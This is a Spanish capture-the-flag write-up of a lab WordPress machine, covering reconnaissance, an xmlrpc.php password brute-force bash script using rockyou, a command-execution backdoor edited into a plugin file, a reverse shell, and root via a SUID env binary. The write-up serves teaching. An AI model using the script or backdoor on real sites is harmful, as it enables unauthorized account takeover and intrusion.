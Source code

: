 # WalkingCMS

![Image](https://github.com/user-attachments/assets/5b69884b-8ee4-48e0-8540-858643a14838)

## Reconocimiento

Tras comprobar que tenemos conectividad con la máquina procedemos a escanear los puertos que están abiertos con **Nmap**:

![Image](https://github.com/user-attachments/assets/62e1968c-ae48-4917-937d-8e166838c1cc)

En este primer escaneo podemos observar, por un lado que se trata de una máquina Linux (debido al TTL de 64) y por otro que tiene el servicio HTTP activo por el puerto 80.

![Image](https://github.com/user-attachments/assets/de3d102c-2528-49f4-bd74-246f8e2491c9)

En este segundo escaneo obtenemos más información sobre este servicio, como la versión de Apache o la distribución de Linux (en este caso un Debian).

Con la herramienta **WhatWeb** podemos identificar las tecnologías que está utilizando este servicio web, aunque en esta ocasión no nos sirve de mucha ayuda:

![Image](https://github.com/user-attachments/assets/0f9b5813-7821-488d-bd43-d3365a7eb142)

Un primer vistazo a la web nos confirma que esta URL no tiene nada de interés, puesto que se trata del clásico archivo index de apache:

![Image](https://github.com/user-attachments/assets/9f8a5e6b-c074-4f21-ae6c-43459e07bbf9)

Es momento de hacer Fuzzing para identificar directorios expuestos, para lo cual utilizamos **gobuster**:

![Image](https://github.com/user-attachments/assets/d2ba9d3f-a2a8-4bd0-b438-9112ad239a6a)

De esta forma descubrimos que hay un WordPress corriendo:

![Image](https://github.com/user-attachments/assets/9f71ce2f-6113-4be3-9f5d-598dba0804fe)

Toca volver a hacer Fuzzing para descubrir nuevos directorios expuestos y utilizar la herramienta **WpScan** para encontrar posibles vulnerabilidades:

![Image](https://github.com/user-attachments/assets/1f58e48d-e518-47c5-a3fb-3ce54871e7c7)

Como podemos observar en los resultados obtenidos hay una ruta */wp-admin* que contiene un panel de autenticación.

Utilizamos el siguiente comando de **WpScan** (en este caso tengo guardado el token de la app en una variable de entorno por lo que será necesario que configuréis esto para que funcione, sino siempre podéis incluir ahí vuestro token personal):

![Image](https://github.com/user-attachments/assets/42efdba4-a07f-4bc2-a6c1-8df0d3aba2fb)

Tras ejecutar el comando podemos observar tanto un usuario *Mario*, como que el archivo *xmlrpc.php* está expuesto:

![Image](https://github.com/user-attachments/assets/ebcf4952-e42f-4de3-89d2-cad756167d73)

![Image](https://github.com/user-attachments/assets/4a75e2a7-f1bc-477a-aa28-4514b8ce5cac)

Basandonos en la información de la siguiente página [explotación archivo xmlrpc.php](https://nitesculucian.github.io/2019/07/02/exploiting-the-xmlrpc-php-on-all-wordpress-versions/) podemos utilizar este archivo y este usuario para crear un script que nos proporcione la contraseña de dicho usuario. Pero primero realizamos una consulta a la dirección donde se aloja el xmlrpc.php creando un archivo file.xml de prueba (en este caso nos aprovechamos del método wp.getUsersBlogs):

```
 <?xml version="1.0" encoding="UTF-8"?> <methodCall> <methodName>wp.getUsersBlogs</methodName> <params> <param><value>mario</value></param> <param><value>ejemplo</value></param> <
       │ /params> </methodCall>
```

Comprobando el resultado de la respuesta podemos adaptar nuestro script:

![Image](https://github.com/user-attachments/assets/52809f57-5c83-4310-991a-3d3f35de4638)

Por lo que nuestro script quedaría de la siguiente forma:

```Bash
#!/bin/bash

function ctrl_c(){
    echo -e "Saliendo..."
    exit 1
}

trap ctrl_c SIGINT

function createXML(){
    password=$1

    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>mario</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""

    echo $xmlFile > file.xml

    response=$(curl -s -X POST "http://172.17.0.2/wordpress/xmlrpc.php" -d@file.xml)

    if [ ! "$(echo $response | grep 'Nombre de usuario o contraseña incorrectos.')" ]; then
        echo -e "\n[+] La contraseña para el usuario mario es $password"
        exit 0
    fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
    createXML $password
done
```

Tras ejecutar el script descubrimos que la contraseña para el usuario es *love*

![Image](https://github.com/user-attachments/assets/039c1cb1-1b9c-4254-b7e6-3bbd1ea860f2)

## Explotación

Una vez hemos obtenido las credenciales nos autenticamos en el panel descubierto anteriormente y procedemos a buscar nuevas vulnerabilidades que nos permitan obtener acceso a la máquina. Para ello nos buscamos los plugins instalados y haciendo uso de uno llamado *Akismet* modificamos el código de su archivo *akismet.php* para que nos permita ejecutar comandos:

![Image](https://github.com/user-attachments/assets/70153d0b-4820-4e4b-83ab-68e4d623a68a)

Una vez comprobado que podemos ejecutar comandos como "id" o "whoami" procedemos a entablarnos una reverse shell tras ponernos en escucha con netcat por el puerto 433 (se suele emplear el 443 pero en este caso es una errata):

![Image](https://github.com/user-attachments/assets/333d23fc-acba-4096-9807-4fa005e49275)

## Escalada de privilegios

Tras ganar acceso a la máquina debemos hacer un tratamiento de la tty para poder trabajar de una manera más eficiente y clara. Para esto tendremos que utilizar los siguientes comandos:

- `script /dev/null -c bash`
- ctrl + z (para poner el proceso en segundo plano)
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows x columns y` (donde x e y son las filas y columnas de tu terminal habitual, para comprobarlo utiliza en una consola aparte stty size)

Ahora que estamos en condiciones de proseguir podemos buscar la forma de escalar privilegios, para ello buscamos la presencia de archivos SUID de los que nos podamos aprovechar y encontramos que el binario *env* tiene permiso SUID:

![Image](https://github.com/user-attachments/assets/de3d102c-2528-49f4-bd74-246f8e2491c9)

De esta forma podemos recurrir a páginas como [GTFOBins](https://gtfobins.github.io/) que contemplan diversos archivos de los que nos podemos aprovechar según los permisos que tengan para escalar privilegios. Solamente tendríamos que ejecutar el siguiente comando y nos convertiríamos en *root*.

![Image](https://github.com/user-attachments/assets/fb03c526-d104-45ed-b728-b4c4abbfa002)

Con esto tendríamos control total sobre la máquina.
